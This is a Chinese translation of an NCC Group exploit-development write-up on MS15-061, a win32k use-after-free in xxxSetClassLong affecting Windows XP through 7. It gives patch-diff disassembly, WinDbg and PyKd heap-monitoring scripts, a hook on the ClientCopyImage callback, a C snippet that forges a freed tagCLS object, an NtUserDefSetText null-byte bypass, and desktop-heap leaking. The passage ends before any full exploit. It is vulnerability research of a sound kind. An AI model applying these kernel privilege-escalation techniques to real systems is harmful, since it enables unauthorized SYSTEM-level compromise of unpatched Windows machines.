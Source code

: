 利用 MS15-061 Windows 内核释放后重用漏洞（win32k!xxxSetClassLong）
==================================================================


**Dominic Wang**

**NCC Group**


**译者** ：rectigu@gmail.com

**创建时间** ：2015 年 8 月

**更新时间** ：2016 年 4 月 27 日


1. 简介
-------

2015 年 6 月，微软发布了 `MS15-061`_ 安全通告，修复了诸多漏洞 [1]_ 。
本文将详细分析其中的一个 win32k 漏洞， 并且阐述在 Windows
7 SP1 上利用这类漏洞的必要细节。

起初，我尝试重现出现在 Duqu 2.0 样本中的本地提权漏洞。
经过一些研究与补丁分析，我发现 Udi Yavo 发现了一些非常有意思而且与 Duqu
2.0 使用的漏洞（CVE-2015-2360）类型一样的漏洞。
更重要的是，我碰巧触发了同样的代码路径。

请注意我使用 32 位的 Windows 7 SP1 来做初始分析与漏洞利用。
不过本文阐述的技巧也同样适用于 64 位的 Windows。事实上，
在本文的方法上做一点很小的改动就可以很轻松地开发出 64 位的利用程序。

1.1. 漏洞描述
*************

这个是一个位于 win32k.sys 的释放后重用漏洞。
漏洞的起因是没有为用户模式回调函数给窗口内核类型加锁， 该漏洞可以由
win32k.sys 中的 xxxSetClassLong 函数触发。
成功利用该漏洞将导致特权提升到“NT AUTHORITY/SYSTEM”。

1.2. 受影响的操作系统
*********************

该漏洞影响的版本从 Windows XP 一直到 Windows 7 SP1 [2]_ 。

-  Windows 7
-  Windows Vista
-  Windows XP
-  Windows Server 2008
-  Windows Server 2008 R2
-  Windows Server 2003

1.3. 荣誉
*********

该漏洞由 enSilo 的 Udi Yavo [2]_ 发现并阐述。

2. 初始分析
-----------

2.1. 背景
*********

该漏洞的本质与用于 RussianDoll（CVE-2015-1701） 与用于 Duqu
2.0（CVE-2015-2360）类似。 这些漏洞的根源都是在执行 CopyClientImage
用户模式回调函数时没能正确地给窗口内核类型加锁。
特别地，该漏洞影响的对象 与用于 Duqu 2.0 的是一样的，也就是 tagCLS 内核结构。

2.1.1. 补丁对比
+++++++++++++++

::

    文件            版本                MD5
    win32k.sys     6.1.7601.18773      ba3cb7d5c1dcf17e6fffb28db950841a
    win32k.sys     6.1.7601.18869      bcd4c37a7043e75131111ea447210de7

补丁 MS15-061 在位于 xxxSetClassCursor 函数的 xxxSetClassIcon 函数调用
前后加上了内核类型加锁与解锁的系统调用，位于 xxxSetClassData 函数中的
xxxSetClassCursor 也是如此。这可以在下面的补丁对比中看到。

未打补丁的 xxxSetClassData 函数：

::

    .text:BF83AD94                        push     [ebp+arg_8]
    .text:BF83AD97                        push     edi
    .text:BF83AD98                        push     esi
    .text:BF83AD99                        push     eax
    .text:BF83AD9A                        call     _xxxSetClassCursor@16 ; xxxSetClassCursor(x,x,x,x) ; xxxSetClassCursor 会执行到 xxxSetClassIcon
    .text:BF83AD9F                        call     __SEH_epilog4
    .text:BF83ADA4                        retn     10h

打了补丁的 xxxSetClassData 函数：

::

    .text:BF83ADAD                        lea      eax, [ebp+var_34]
    .text:BF83ADB0                        push     eax
    .text:BF83ADB1                        push     esi
    .text:BF83ADB2                        call     _ClassLock@8        ; ClassLock(x,x)
    .text:BF83ADB7                        test     eax, eax
    .text:BF83ADB9                        jz       loc_BF83AADC
    .text:BF83ADBF                        push     [ebp+arg_8]
    .text:BF83ADC2                        push     edi
    .text:BF83ADC3                        push     esi
    .text:BF83ADC4                        push     [ebp+P]
    .text:BF83ADC7                        call     _xxxSetClassCursor@16 ; xxxSetClassCursor(x,x,x,x) ; xxxSetClassCursor 会执行到 xxxSetClassIcon
    .text:BF83ADCC                        mov      edi, eax
    .text:BF83ADCE                        lea      eax, [ebp+var_34]
    .text:BF83ADD1                        push     eax
    .text:BF83ADD2                        push     esi
    .text:BF83ADD3                        call     _ClassUnlock@8      ; ClassUnlock(x,x)
    .text:BF83ADD8                        mov      eax, edi
    .text:BF83ADDA                        jmp      loc_BF83AAE5
    ...
    .text:BF83AAE5                        call     __SEH_epilog4
    .text:BF83AAEA                        retn     10h

未打补丁的 xxxSetClassCursor 函数：

::

    .text:BF92BDE4                       cmp       ebx, 0FFFFFFDEh
    .text:BF92BDE7                       jz        short loc_BF92BDFF
    .text:BF92BDE9                       cmp       ebx, 0FFFFFFF2h
    .text:BF92BDEC                       jz        short loc_BF92BDFF
    ...
    .text:BF92BDFF                       push      ebx
    .text:BF92BE00                       push      esi
    .text:BF92BE01                       push      edi
    .text:BF92BE02                       push      [ebp+arg_0]
    .text:BF92BE05                       call      _xxxSetClassIcon@16 ; xxxSetClassIcon(x,x,x,x) ; xxxSetClassIcon 会执行到用户模式回调函数
    .text:BF92BE0A
    .text:BF92BE0A                       mov       edi, [edi]

打了补丁的 xxxSetClassCursor 函数：

::

    .text:BF92C3D2                       cmp       ebx, 0FFFFFFDEh
    .text:BF92C3D5                       jz        short loc_BF92C3ED
    .text:BF92C3D7                       cmp       ebx, 0FFFFFFF2h
    .text:BF92C3DA                       jz        short loc_BF92C3ED
    ...
    .text:BF92C3ED                       lea       eax, [ebp+var_18]
    .text:BF92C3F0                       push      eax
    .text:BF92C3F1                       push      esi
    .text:BF92C3F2                       call      _ClassLock@8       ; ClassLock(x,x)
    .text:BF92C3F7                       test      eax, eax
    .text:BF92C3F9                       jz        short loc_BF92C421
    .text:BF92C3FB                       push      ebx
    .text:BF92C3FC                       push      edi
    .text:BF92C3FD                       push      esi
    .text:BF92C3FE                       push      [ebp+arg_0]
    .text:BF92C401                       call      _xxxSetClassIcon@16 ; xxxSetClassIcon(x,x,x,x) ; xxxSetClassIcon 会执行到用户模式回调函数
    .text:BF92C406                       lea       eax, [ebp+var_18]
    .text:BF92C409                       push      eax
    .text:BF92C40A                       push      esi
    .text:BF92C40B                       call      _ClassUnlock@8     ; ClassUnlock(x,x)
    .text:BF92C410                       mov       esi, eax

2.2. 漏洞
*********

没能在用户模式回调函数的前后正确地实现 ClassLock 使得攻击者可以通过
win32k 系统调用修改窗口内核类型结构，比如说
tagCLS。这种情况最终可能导致位于桌面堆上的目标内核类型结构的修改与释放，
而内核却继续操作已经被释放的内存。
这是一个典型的利用 win32k.sys 用户模式回调函数的释放后重用场景 [3]_ 。

2.2.1. 调用链
+++++++++++++

为了方便重现，我们使用取自全新安装的 Windows 7 SP1 的 win32k.sys
来做进一步的分析。

::

    文件              版本                 MD5
    win32k.sys       6.1.7601.17514      687464342342b933d6b7faa4a907af4c

使用恰当的参数调用 SetClassLong 用户模式 API
设置图标属性能够触发存在漏洞的用户模式回调函数，正如 Udi Yavo
在他的分析 [2]_ 中描述的那样。举个例子，这可以通过下面的代码片段触发。

::

    ; 触发用户模式回调函数
    SetClassLongPtr(hwnd, GCLP_HICON, (LONG_PTR)LoadIcon(NULL, IDI_QUESTION));

这种表现可以通过在 KeUserModeCallback 函数设置恰当的断点来展示，
如下 WinDbg 调用栈所示；

::

    kd> kb
    ChildEBP RetAddr        Args to Child
    9aa83ad8 96f93a7d 0001002b 00000001 00000010 nt!KeUserModeCallback
    9aa83b00 9701f2f8 fea11200 fea11200 fffffff2 win32k!xxxCreateClassSmIcon+0x7f
    9aa83b28 97018d80 fea144e0 00000000 ffb6a198 win32k!xxxSetClassIcon+0x8c
    9aa83b4c 96f2a251 fea144e0 fea11200 fffffff2 win32k!xxxSetClassCursor+0x6c
    9aa83b9c 96f2a3e4 fea144e0 fffffff2 0001002b win32k!xxxSetClassData+0x36d
    9aa83bb8 96f2a390 fea144e0 fffffff2 0001002b win32k!xxxSetClassLong+0x39
    9aa83c1c 82a821ea 0003026a fffffff2 0001002b win32k!NtUserSetClassLong+0x132
    9aa83c1c 773270b4 0003026a fffffff2 0001002b nt!KiFastCallEntry+0x12a
    0027fec0 76f96583 76f965b7 0003026a fffffff2 ntdll!KiFastSystemCallRet
    0027fec4 76f965b7 0003026a fffffff2 0001002b USER32!NtUserSetClassLong+0xc
    0027fefc 00ec10ce 0003026a fffffff2 0001002b USER32!SetClassLongW+0x5e

2.3. 概要
*********

总的来讲，真正的问题可以概括如下：

1. xxxSetClassLong 函数可以由 SetClassLong 用户模式函数调用到。
2. 如果用恰当的参数调用 SetClassLong 函数，最终会执行到
   xxxSetClassCursor 函数。
3. 在 xxxSetClassIcon 调用 xxxCreateClassSmIcon
   时，它会调用能导致用户模式回调的函数，而这个回调函数可以在用户模式挂钩。
4. 当代码在用户模式执行的时候，通过调用 win32k.sys
   系统调用桌面堆上的结构可能被改变；包括释放调 tagCLS 结构。
5. 返回到内核模式之后，内核线程没有检查已经被修改的结构。这是一个典型的造成在调用
   HMAUnlockObject [2]_ [3]_ 时任意地址递减的释放后重用漏洞。


3. 触发漏洞
-----------

正如 Aaron 在他的论文 [4]_ 中所说的那样，
漏洞利用程序的开发通常是通过一系列的阶段来实现的。
我们通常把触发漏洞分类为第一阶段的内存破坏。
这是一种很好的看待现代漏洞利用程序开发过程的方式，
因为在现在要开发军火级别的漏洞利用程序所需的信息很容易让人摸不清方向。

3.1. tagCLS 结构
****************

利用任何一个释放后重用漏洞的第一步就是弄清楚存在漏洞的对象是什么：
熟悉哪个对象被释放掉了。在这个漏洞中，存在漏洞的对象是 tagCLS 内核窗口类型结构。
这是一个可以通过 RegisterClass 用户模式 API [5]_ 实例化的内核类型结构，
该函数返回的原子 [6]_ 可以使用 CreateWindow
或者 CreateWindowEx [7]_ 用户模式 API 来创建 GUI 窗口。

下面是 WinDbg 输出的 tagCLS 结构与它的大小。

::

    kd> dt win32k!tagCLS
         +0x000 pclsNext               : Ptr32 tagCLS
         +0x004 atomClassName          : Uint2B
         +0x006 atomNVClassName        : Uint2B
         +0x008 fnid                   : Uint2B
         +0x00c rpdeskParent           : Ptr32 tagDESKTOP
         +0x010 pdce                   : Ptr32 tagDCE
         +0x014 hTaskWow               : Uint2B
         +0x016 CSF_flags              : Uint2B
         +0x018 lpszClientAnsiMenuName : Ptr32 Char
         +0x01c lpszClientUnicodeMenuName : Ptr32 Uint2B
         +0x020 spcpdFirst             : Ptr32 _CALLPROCDATA
         +0x024 pclsBase               : Ptr32 tagCLS
         +0x028 pclsClone              : Ptr32 tagCLS
         +0x02c cWndReferenceCount : Int4B
         +0x030 style                  : Uint4B
         +0x034 lpfnWndProc            : Ptr32        long
         +0x038 cbclsExtra             : Int4B
         +0x03c cbwndExtra             : Int4B
         +0x040 hModule                : Ptr32 Void
         +0x044 spicn                  : Ptr32 tagCURSOR
         +0x048 spcur                  : Ptr32 tagCURSOR
         +0x04c hbrBackground          : Ptr32 HBRUSH__
         +0x050 lpszMenuName           : Ptr32 Uint2B
         +0x054 lpszAnsiClassName : Ptr32 Char
         +0x058 spicnSm                : Ptr32 tagCURSOR
    kd> ?? sizeof(win32k!tagCLS)
    unsigned int 0x5c

3.2. 监视桌面堆
***************

桌面堆用于为 win32k.sys 驱动程序存储 GUI 对象 [3]_ 。
为了监视桌面堆，我个人使用 PyKd，一个赋予 WinDbg 调试器 Python 编程能力的拓展。
我使用 PyKd 借助硬件断点来实现软挂钩并且在开发过程中使用
Python 回调函数来做分析。不过，出于完整性考虑，
下面的 WinDbg 脚本会帮助监视桌面堆的分配与释放。

监视桌面堆分配（64 位）

::

    ba e 1 nt!RtlFreeHeap ".printf\"RtlFreeHeap(%p, 0x%x, %p)\", @rcx, @edx, @r8; .echo ; gc";
    ba e 1 nt!RtlAllocateHeap "r @$t2 = @r8; r @$t3 = @rcx; gu; .printf \"RtlAllocateHeap(%p, 0x%x):\", @$t3, @$t2; r @rax; gc";

监视桌面堆分配（32 位）

::

    ba e 1 nt!RtlAllocateHeap "r @$t2 = poi(@esp+c); r @$t3 = poi(@esp+4); gu; .printf \"RtlAllocateHeap(%p, 0x%x):\", @$t3, @$t2; r @eax; gc";
    ba e 1 nt!RtlFreeHeap ".printf\"RtlFreeHeap(%p, 0x%x, %p)\", poi(@esp+4), poi(@esp+8), poi(@esp+c); .echo ; gc"

请注意从现在开始，输出与提供的 Python 代码片段都是我通过 PyKd 用来分析
WinDbg 输出的回调逻辑。

3.3. 触发用户模式回调
*********************

win32k 使用用户模式回调函数来实现像应用程序定义的钩子和
与用户模式交换数据等用户模式的操作。
考虑到 win32k 的内部机制已经在 Tarjei Mandt 的研究 [3]_ 中详细阐述，
我将会只提供对利用该漏洞所需要的结构做一个简单的介绍。

下面这个给 PyKd 钩子的回调用于获取 PEB.KernelCallbackTable 的地址：

.. code:: python

    def getKernelCallBackTable():
         # wingdbstub.Ensure()
         console = pykd.dbgCommand("dt !_PEB @$peb").split()
         for i in range(0, len(console)):
              if console[i] == u'KernelCallbackTable':
                    index = i
                    break
         print("KernelCallBackTable: %s" % console[i+2])
         return int(console[i+2], 16)

有了 PEB.KernelCallbackTable 的地址，
我们就可以使用 WinDbg 的 dds 命令把回调函数表及其相关联的符号显示出来。

::

    kd> getKernelCallBackTable
    KernelCallBackTable: 0x7708d568
    kd> dds 0x7708d568
    7708d568 770764eb USER32!__fnCOPYDATA
    7708d56c    770bf0bc USER32!__fnCOPYGLOBALDATA
    7708d570    77084f59 USER32!__fnDWORD
    7708d574    7707b2a1 USER32!__fnNCDESTROY
    7708d578    770a01a6 USER32!__fnDWORDOPTINLPMSG
    7708d57c    770bf196 USER32!__fnINOUTDRAG
    7708d580    770a6bfd USER32!__fnGETTEXTLENGTHS
    7708d584    770bf3ea USER32!__fnINCNTOUTSTRING
    Snipped

想想在 2.2.1 节中的漏洞调用链，在 nt!KeUserModeCallback
系统调用的之前的最后一帧是 win32k!xxxCreateClassSmIcon+0x7f：

::

    .text:BF8A3A76                          push     ecx
    .text:BF8A3A77                          push     edx
    .text:BF8A3A78                          call     _xxxClientCopyImage@20 ;
    xxxClientCopyImage(x,x,x,x,x)
    win32k!xxxCreateClassSmIcon+0x7f:
    .text:BF8A3A7D                          lea      esi, [edi+58h]

看看 xxxClientCopyImage 函数调用。
注意用于 KeUserModeCallback 调用的 ApiNumber参数是 0x36，
这是在回调表中的索引，也就是 ClientCopyImage 回调：

::

    .text:BF8A276C                          push     eax
    .text:BF8A276D                          push     14h
    .text:BF8A276F                          lea      eax, [ebp+var_30]
    .text:BF8A2772                          push     eax
    .text:BF8A2773                          push     36h ; ApiNumber
    .text:BF8A2775                          call     ds:__imp__KeUserModeCallback@20 ;
    KeUserModeCallback(x,x,x,x,x)
    .text:BF8A277B                          mov      esi, eax

我们可以用 WinDbg 验证这一点：

::

    kd> dds 0x7708d568 + 0x4*0x36 L1
    7708d640 7707f55f USER32!__ClientCopyImage

回忆一下 2.3 节，这个用户模式回调函数可以被挂钩。
注意现在这个回调函数指向我们的利用程序定义的钩子
（ripmtso!hookClientCopyImage）：

::

    kd> dds 0x7708d568 + 0x4*0x36 L1
    7708d640 010f1490 ripmtso!hookClientCopyImage
    [z:\expdev\workspace\ripmtso\ripmtso\main.c @ 637]

3.4. 使用已经释放了的内存
*************************

::

    断点                                       分析
    win32k!xxxCreateClassSmIcon+0x7a          beforeCCI()
    win32k!xxxCreateClassSmIcon+0x7f          afterCCI()
    nt!RtlFreeHeap                            monitorRtlFreeHeap()
    nt!RtlAllocateHeap                        monitorRtlAllocateHeap_1
    nt!RtlAllocateHeap+0x10e                  monitorRtlAllocateHeap_2

我使用 xxxCreateSmIcon 来观察这个释放后重用场景：

::

    .text:BF8A3A76                        push      ecx
    .text:BF8A3A77                        push      edx ; win32k!xxxCreateClassSmIcon+0x7a
    .text:BF8A3A78                        call      _xxxClientCopyImage@20 ; leads to user-mode
    callback
    .text:BF8A3A7D                        lea       esi, [edi+58h] ;

win32k!xxxCreateClassSmIcon+0x7f，edi 寄存器指向 win32k!tagCLS 结构

相关的分析逻辑：

.. code:: python

    def disable_bp(bp_symbol):
         console = pykd.dbgCommand("bl").split()
         for i in range(0, len(console)):
              if console[i] == bp_symbol:
                   index = i
                   break
         pykd.dbgCommand("bd %s" % console[i-7])
         print("[+] Breakpoint %s disabled!" % console[i-7])
    def beforeCCI():
         tagCLS = pykd.dbgCommand("?edi").split()[4]
         print("[+] tagCLS allocated @: %s" % tagCLS)
    def afterCCI():
         # disable_bp(u'nt!RtlFreeHeap')
         Pass

此外，桌面堆监视：

.. code:: python

    def monitorRtlFreeHeap():
          parent = pykd.dbgCommand("?poi(esp+4)").split()[4]
          size = pykd.dbgCommand("?poi(esp+8)").split()[4]
          freed_chunk = pykd.dbgCommand("?poi(esp+c)").split()[4]
          print("RtlFreeHeap(0x%s, 0x%s, 0x%s)" % (parent, size, freed_chunk))
          pykd.dbgCommand("g")
    def monitorRtlAllocateHeap_1():
          #wingdbstub.Ensure()
          t2 = pykd.dbgCommand("?poi(esp+c)").split()[4]
          t3 = pykd.dbgCommand("?poi(esp+4)").split()[4]
          ptr = pykd.dbgCommand("?eax").split()[4]
          print("[+] RtlAllocateHeap(0x" + t3 +", 0x"+ t2 + "):")
          pykd.dbgCommand("g")
    def monitorRtlAllocateHeap_2():
          #wingdbstub.Ensure()
          ptr = pykd.dbgCommand("?eax").split()[4]
          print("[+] ptr = 0x%s" % ptr)
          pykd.dbgCommand("g")

想象一下，如果我们在 CopyClientImage 钩子中调用 DestroyWindow 与
UnregisterClass 函数，那会怎样？

这将会导致 位于 tagCLS 中的 cWndReferenceCount
自减，并最终在类型取消注册时造成释放 tagCLS 的后果。

::

    kd> g
    [+] tagCLS allocated @: fea31ca0
    win32k!xxxCreateClassSmIcon+0x7a:
    970a3a78 e8b9ecffff            call      win32k!xxxClientCopyImage (970a2736)
    kd> be * ; enable desktop heap monitoring breakpoints
    kd> g
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31dd8)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31d08)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31ca0)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea313a8)
    win32k!xxxCreateClassSmIcon+0x7f:
    970a3a7d 8d7758                lea       esi,[edi+58h] ; operating on freed memory

3.5. 伪造 tagCLS 结构
*********************

利用这种类型漏洞的经典方式就是设置通过 SetWindowTextW 设置窗口的标题栏，
并因此强制实现任意大小的桌面堆分配。唯一需要注意的是，使用这种技巧的时候，
不允许缓冲区中存在单字零，并且为了结束字符串 [3]_ 最后两个字节必须是零。

.. code:: c

    BYTE chunk[0x5c];
    memset(chunk, '\x41', 0x5c);
    chunk[0x58] = '\xa9';
    chunk[0x59] = '\xde';
    chunk[0x5a] = '\x00';
    chunk[0x5b] = '\x00';
    SetWindowTextW(hwnd,chunk);

3.6. 非法访问
*************

简言之，我们能够通过被替换了的对象（偏移+0x58）使任意地址自减。
注意我们只能控制自减地址的两个字节（举个例子，0x0000dead）：

::

    kd> g
    [+] tagCLS allocated @: fea23718
    win32k!xxxCreateClassSmIcon+0x7a:
    982d3a78 e8b9ecffff            call     win32k!xxxClientCopyImage (982d2736)
    kd> be * ; enable desktop heap monitoring breakpoints
    kd> g
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23850)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23780)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23718)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea2b208)
    [+] RtlAllocateHeap(0xfea00000, 0x0000005c):
    [+] ptr = 0xfea23718 ; replacing the freed object using SetWindowTextW
    win32k!xxxCreateClassSmIcon+0x7f:
    982d3a7d 8d7758                lea      esi,[edi+58h]
    kd> dc 0xfea23718
    fea23718     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23728     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23738     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23748     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23758     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23768     41414141 41414141 0000dea9 00000000          AAAAAAAA........
    fea23778     00000003 0000000d fea2b208 fea192b8          ................
    fea23788     00000000 00000000 00010017 08000003          ................
    kd> g
    Access violation - code c0000005 (!!! second chance !!!)
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec      dword ptr [eax+4]
    kd> r
    eax=0000dea9 ebx=ffa1b7b8 ecx=ff910000 edx=ffa4f8e8 esi=ffa4f8e8 edi=0000dea9
    eip=982fdcc1 esp=b27c6adc ebp=b27c6adc iopl=0                    nv up ei pl nz na pe nc
    cs=0008 ss=0010 ds=0023 es=0023 fs=0030 gs=0000                               efl=00010206
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec      dword ptr [eax+4]        ds:0023:0000dead=????????

偏移 0x58 是这个 tagCLS 对象的 spicnSm 成员，该成员在执行 HMUnlokObject
操作是会被引用。该操作用于解锁（自减）给定对象的引用计数。
因此，这将导致造成任意自减的场景。

4. 利用漏洞
-----------

有几个可以用来利用这个漏洞的方法。其中著名的技巧是反转位于
tagCLS [8]_ 中的 CSF\_flags 结构的 Server Side Proc 域。
不过，我决定使用一种会引入一个额外的 tagWND 结构的方法。

4.1. 单字零的问题
*****************

在利用自减一条件之前，我们还需要解决几个障碍。 由于宽字符的限制，在使用
SetWindowTextW 的时有零指针与单字零是不可能的。
这是个问题我们需要在伪造的 tagCLS
块中的零指针来正常的退出存在漏洞的代码路径。 而且，我们通过
SetWindowTextW 技巧只能控制自减的最后两个字节。 这在 32
位架构几乎没有任何用处。

不妨在调用 SetWindowTextW 函数时设置一个断点到 RtlAllocateHeap 上。

::

    kd> ba e 1 nt!RtlAllocateHeap
    kd> bl
      0 e 82ad3ee7 e 1 0001 (0001) nt!RtlAllocateHeap
    kd> g
    Breakpoint 0 hit
    nt!RtlAllocateHeap:
    82ad3ee7 8bff                  mov       edi,edi
    kd> kb
    ChildEBP RetAddr       Args to Child
    b276ca9c 9830690a fea00000 00000000 0000005c nt!RtlAllocateHeap
    b276cab4 982eb6a4 86938048 0000005c 00000004 win32k!DesktopAlloc+0x25
    b276caf8 982dd499 fea226d8 0000005c 2a35ba52 win32k!DefSetText+0x8a
    b276cb70 982eb611 fea226d8 0000000c 00000000 win32k!xxxRealDefWindowProc+0x111
    b276cb88 982ef86b fea226d8 0000000c 00000000 win32k!xxxWrapRealDefWindowProc+0x2b

看似 win32k!DefSetText 可以用来触发桌面堆的分配。
具体讲，该函数可以通过直接调用 NtUserDefSetText 系统调用 由
user32!NtUserDefSetText [4]_ 调用到：

::

    .text:77D4265A ; __stdcall NtUserDefSetText(x, x)
    .text:77D4265A _NtUserDefSetText@8 proc near                       ; CODE XREF:
    _DefSetText(x,x,x)+33p
    .text:77D4265A                         mov       eax, 116Dh
    .text:77D4265F                         mov       edx, 7FFE0300h
    .text:77D42664                         call      dword ptr [edx]
    .text:77D42666                         retn      8
    .text:77D42666 _NtUserDefSetText@8 endp

利用 NtUserDefSetText 系统调用，我们可以绕过单字零的限制。
现在我们能够分配包含单字零的任意桌面堆块。这意味着此时我们已经可以自减任意地址了。

::

    eax=cafebaba ebx=ffa19708 ecx=ff910000 edx=fe6966e0 esi=fe6966e0 edi=cafebaba
    eip=982fdcc1 esp=9b3b7adc ebp=9b3b7adc iopl=0                    nv up ei ng nz na po nc
    cs=0008 ss=0010 ds=0023 es=0023             fs=0030    gs=0000                 efl=00010282
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec       dword ptr [eax+4]       ds:0023:cafebabe=????????

4.2. 泄漏桌面堆的信息
*********************

现在，我将介绍一些用于从用户模式读取桌面堆的结构。
需要注意的是所有的用户对象都被索引到了一张每会话的句柄表中，该表位于
win32k!gpvSharedBase [3]_ ，并且该区被映射到了每一个 GUI
进程（用户模式）。这对漏洞利用程序开发者来说是一个天大的好消息，
因此我们可以从用户模式读取桌面堆的任意内容。这个特性可以看作是一个强有力的信息泄漏。
因为我们可以从用户模式映射的桌面堆获取任意桌面堆对象的内容，
所以我们可以备份被篡改的 tagCLS 结构并用它来恰当地从存在漏洞的代码路径退出。
更具体地讲，在将其替换为利用 NtUserDefSetText 系统调用篡改过的 tagCLS 之前，
我们使用桌面堆泄漏来复制一份 tagCLS。在我们拿到一份有效的 tagCLS 对象的复本后，
我们修改位于偏移 0x58 处的指针，该指针在后面将会用来实现任意自减。
读取用户模式映射的桌面堆的过程已经在 Tarjei 的论文 [3]_ 与 Aaron
的论文 [4]_ 中阐述。简单讲，
我们能用 NtCurrentTeb() 来定位 Win32ClientInfo 结构：

.. code:: c

    typedef struct _CLIENTINFO
    {
             ULONG_PTR CI_flags;
             ULONG_PTR cSpins;
             DWORD dwExpWinVer;
             DWORD dwCompatFlags;
             DWORD dwCompatFlags2;
             DWORD dwTIFlags;
             PDESKTOPINFO pDeskInfo;
             ULONG_PTR ulClientDelta;
             // incomplete. see reactos
    } CLIENTINFO, *PCLIENTINFO;

ulClientDelta
成员可以用来计算桌面堆对象的用户模式地址。这是桌面堆用户模式映射与内核映射的偏移。

接着，看看 win32k!tagSHAREDINFO 结构，该结构由
user32!gSharedInfo（用户模式）与 win32k!gSharedInfo（内核模式）指向：

::

    kd> ?user32!gSharedInfo
    Evaluate expression: 1981453376 = 761a9440
    kd> dt win32k!tagSHAREDINFO 761a9440
        +0x000 psi                    : 0x003b0578 tagSERVERINFO
        +0x004 aheList                : 0x002f0000 _HANDLEENTRY
        +0x008 HeEntrySize            : 0xc
        +0x00c pDispInfo              : 0x003b1728 tagDISPLAYINFO
        +0x010 ulSharedDelta          : 0xff620000
        +0x014 awmControl             : [31] _WNDMSG
        +0x10c DefWindowMsgs          : _WNDMSG
        +0x114 DefWindowSpecMsgs : _WNDMSG
    kd> ?win32k!gSharedInfo
    Evaluate expression: -1740320288 = 9844d1e0
    kd> dt win32k!tagSHAREDINFO 9844d1e0
        +0x000 psi                    : 0xff9d0578 tagSERVERINFO
        +0x004 aheList                : 0xff910000 _HANDLEENTRY
        +0x008 HeEntrySize            : 0xc
        +0x00c pDispInfo              : 0xff9d1728 tagDISPLAYINFO
